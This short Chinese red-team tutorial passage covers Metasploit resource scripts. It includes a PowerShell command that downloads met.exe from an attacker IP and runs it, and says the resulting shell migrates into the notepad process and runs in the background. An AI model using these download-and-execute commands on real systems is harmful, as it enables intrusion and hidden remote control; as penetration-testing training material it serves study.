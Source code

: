 加载脚本文件

```armasm
sudo msfconsole -r listener.rc
```

运行payload

```armasm
iwr -uri http://192.168.119.4/met.exe -Outfile met.exe
.\met.exe
```

获得shell并自动迁移到notepad进程，并后台运行

其他系统自带脚本

```armasm
ls -l /usr/share/metasploit-framework/scripts/resource
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
